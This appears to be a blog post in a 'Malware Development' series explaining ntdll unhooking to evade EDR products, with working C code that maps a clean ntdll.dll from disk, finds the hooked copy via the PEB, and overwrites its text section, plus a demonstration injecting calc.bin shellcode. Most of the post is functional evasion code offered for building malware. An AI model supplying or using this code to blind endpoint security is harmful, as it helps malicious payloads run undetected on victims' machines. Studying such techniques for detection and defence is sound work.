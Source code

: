```yaml
---
title: "EDR Evasion 101 - Pt 2: Ntdll Unhooking via Overwritte"
description: How to remove EDR hooks (byte patching hooking) in ntdll.
author: Oblivion
date: 2024-04-14 11:33:00 +0800
categories: [Malware Development]
tags: []
pin: false
math: true
mermaid: true
---
```


Ntdll Unhooking is a technique that consists of replacing the syscall stub and thus bypassing it. There are several ways to unhook the dll, but in this case, replace the text section of the dll, which is where the functions are located by the unhooked ntdll on the disk. Below are the code functions and what each one does:

- GetTextUnhooked:  Function responsible for reading the ntdll from the disk, mapping it in memory and recovering its text section.
- GetTextHooked:  Function responsible for returning the ntdll base address of the current process by PEB , and then return the text section of the hooked ntdll.
- ReplaceNtdllText: Function responsible for replacing the hooked ntdll with the unhooked one.

# GetTextUnhooked

First we use CreateFileA to retrieve a file identifier from the disk, then we get its size with GetFileSize to later pass it as a parameter to CreateFileMappingA, with CreateFileMapping we retrieve an identifier from a mapper file and then with MapViewOfFile we will have the memory address of the mapped file.

```c
HANDLE hNtdll = CreateFileA( ntdllName, GENERIC_READ , FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL );
if (hNtdll == INVALID_HANDLE_VALUE) {
    printf( "[!] CreateFileA for ntdll unhooked failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
    return FALSE;
}

DWORD ntdllSize = GetFileSize( hNtdll, NULL );

HANDLE hMapFile = CreateFileMappingA( hNtdll, NULL, PAGE_READONLY | SEC_IMAGE_NO_EXECUTE, 0, ntdllSize, NULL );
if (hMapFile == NULL) {
    printf( "\t[!] CreateFileMapping for ntdll unhooked failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
}

LPVOID pNtdllImage = MapViewOfFile( hMapFile, FILE_MAP_READ, 0, 0, 0 );
if (pNtdllImage == NULL) {
    printf( "\t[!] MapViewOfFile for REMOTE ntdll failed with error: %lu\n", GetLastError() );
    goto _CLEANUP;
}
```
Now as we have the address we can go to the important part which is getting the address of the text section and size of the text section, this is very simple, we will walk through the header arriving at the Optional Header where we find BaseOfCode and SizeOfCode.

```c
PVOID ptextRemote;
SIZE_T stextRemote;

PIMAGE_DOS_HEADER pImageDosHdr = (PIMAGE_DOS_HEADER)pNtdllImage;
if ( pImageDosHdr->e_magic != IMAGE_DOS_SIGNATURE ){
    printf( "\t[!] Invalid DOS Signature at unhooked ntdll\n" );
    goto _CLEANUP;
}

PIMAGE_NT_HEADERS pImageNtHdrs = (PIMAGE_NT_HEADERS)( (PBYTE)pNtdllImage + pImageDosHdr->e_lfanew );

PIMAGE_SECTION_HEADER pImageSectionHdr = (PIMAGE_SECTION_HEADER)( ( (PBYTE)pImageNtHdrs ) + sizeof(IMAGE_NT_HEADERS) );

ptextRemote = (PVOID)( pImageNtHdrs->OptionalHeader.BaseOfCode + (ULONG_PTR)pNtdllImage );
stextRemote = pImageNtHdrs->OptionalHeader.SizeOfCode;

printf( "\t[+] REMOTE Ntdll Text base address: 0x%p\n", ptextRemote );
printf( "\t[+] REMOTE Ntdll Text size: %d\n\n", stextRemote );
```

# GetTextHooked

First we will fill in the PEB structure and then on the following line:

```c
PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPEB->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);
```

we calculate the address of the loader data table entry (LDR) of the system DLL "ntdll.dll". The PEB contains a pointer to the list of modules loaded in the current process. We will follow the linked list of modules until we find the entry corresponding to ntdll.dll and then subtract an offset of 0x10 to get to the beginning of the DLL data structure.

Now on the next line:

```c
PVOID pNtdllHooked = pLdr->DllBase;
```

We get the base address of the DLL "ntdll.dll" and store it in a variable called "pNtdllHooked".

```c

#ifdef _WIN64
	PPEB pPEB = (PPEB)__readgsqword(0x60);
#elif _WIN32
	PPEB pPEB = (PPEB)__readfsdword(0x30);
#endif // _WIN64

PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPEB->Ldr->InMemoryOrderModuleList.Flink->Flink - 0x10);

PVOID pNtdllHooked = pLdr->DllBase;
```

In sequence, the same thing is done in the previous function:

```c
PIMAGE_DOS_HEADER	pLocalDosHdr	= (PIMAGE_DOS_HEADER)pNtdllHooked;
if (pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
    return FALSE;

PIMAGE_NT_HEADERS 	pLocalNtHdrs	= (PIMAGE_NT_HEADERS)((PBYTE)pNtdllHooked + pLocalDosHdr->e_lfanew);
if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE) 
    return FALSE;

PVOID	pLocalNtdllTxt	= (PVOID)(pLocalNtHdrs->OptionalHeader.BaseOfCode + (ULONG_PTR)pNtdllHooked);
SIZE_T	sNtdllTxtSize	= pLocalNtHdrs->OptionalHeader.SizeOfCode;	
```

# ReplaceNtdllText

This part is the simplest, we just change the memory protection with VirtualProtect, we will copy the text section of the ntdll read from the unhooked disk and replace the one that is hooked in the current process and finally we return the memory protection as it was previously.

```c
if (!VirtualProtect(pTextOriginalNtdll, sTextOriginalNtdll, PAGE_EXECUTE_WRITECOPY, &dwOldProtection)) {
	printf("[!] VirtualProtect [1] Failed With Error : %d \n", GetLastError());
	return FALSE;
}

memcpy(pTextOriginalNtdll, pTextUnhookedNtdll, sTextOriginalNtdll);

if (!VirtualProtect(pTextOriginalNtdll, sTextOriginalNtdll, dwOldProtection, &dwOldProtection)) {
	printf("[!] VirtualProtect [2] Failed With Error : %d \n", GetLastError());
	return FALSE;
}
```

# Demonstration

Now I will use a simple injection to execute calc.bin and use a function to perform a check and verify if the NtProtectVirtualMemory function is hooked. The function is as follows:

```c
PVOID pSyscallAddress = GetProcAddress( GetModuleHandleA( "NTDLL.DLL" ), "NtProtectVirtualMemory" );

printf( "[#] %s [ 0x%p ] ---> %s \n", "NtProtectVirtualMemory", pSyscallAddress, ( *(ULONG*)pSyscallAddress != 0xb8d18b4c ) == TRUE ? "[ HOOKED ]" : "[ UNHOOKED ]" );
```

![img](../commons/ntdll_unhooking_overwrite/img1.webp)

You can find the complete code on my github, there I also have other ways to recover an unhooked dll, via web server and via knowdlls: [Github](https://github.com/Entropy-z/EDR_Evasion_101/tree/master/ntdll_unhooking)

